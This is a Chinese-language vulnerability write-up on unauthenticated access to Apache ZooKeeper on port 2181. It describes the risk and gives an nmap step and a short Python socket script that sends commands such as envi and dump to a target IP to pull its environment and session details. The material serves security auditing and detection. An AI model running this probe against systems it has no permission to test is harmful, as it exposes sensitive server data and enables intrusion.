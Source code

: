 (1) 漏洞简述：ZooKeeper 是一个分布式的，开放源码的分布式应用程序协调服务，是 Google 的 Chubby 一个开源的实现，是 Hadoop 和 Hbase 的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。ZooKeeper 默认开启在 **2181** 端口，在未进行任何访问控制的情况下，攻击者可通过执行 envi 命令获得系统大量的敏感信息，包括系统名称，Java 环境。这将导致任意用户在网络可达的情况下进行为未授权访问，并读取数据甚至 kill 服务。

(2) 风险等级：高风险。

(3) 漏洞编号：无。

(4) 影响范围：Zookeeper 全版本。

---

#### 检测方法

(1) 通过 nmap 扫描开放了 2181 端口的主机。

(2) 运行脚本，通过 socket 连接 2181 端口并发送 envi 命令，若服务端返回的数据中包含 ZooKeeper 的服务运行环境信息，即可证明存在未授权访问。

检测脚本：

```
# coding=utf-8
 
import socket
import sys
 
def check(ip, port, timeout, cmd):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send(cmd)
        data = s.recv(1024)
        s.close()
        print data
    except:
        pass

def main():
    if len(sys.argv) < 3:
        exit()
    ip = sys.argv[1]
    cmd = sys.argv[2]
    # envi
    # dump
    # reqs
    # ruok
    # stat
    check(ip, 2181, 3, cmd)
 
if __name__ == '__main__':
    main()
```

---
